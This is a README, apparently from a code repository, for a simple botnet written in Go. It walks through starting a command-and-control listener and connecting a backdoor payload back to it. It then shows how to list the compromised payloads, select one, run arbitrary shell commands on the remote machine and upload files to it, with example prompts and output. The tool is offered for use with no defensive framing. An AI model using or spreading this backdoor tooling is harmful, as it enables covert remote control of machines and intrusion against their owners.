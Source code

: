 ## Go Botnet

Simple botnet written in GO. It features a command and control over cli and a backdoor payload that communicates to the C&C over tcp.

# Usage:

 - Run the C&C:

```bash
backdoor --listen
```

This starts up a C&C that listens on default port `9999`.

 - Connect a payload to the C&C:

```bash
backdoor -port 9999
```

This will start a backdoor payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<RL:#>`

show all payloads connected to C&C:

```bash
<RL:#> show
```

This will return the payload ids and addresses

```
ID: 57533aa3e5b07e4383951462 Address: 127.0.0.1:64635
ID: 57533aa3e5b07e4383951463 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads address:

```bash
<RL:#> use 127.0.0.1:64346
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<RL#>`
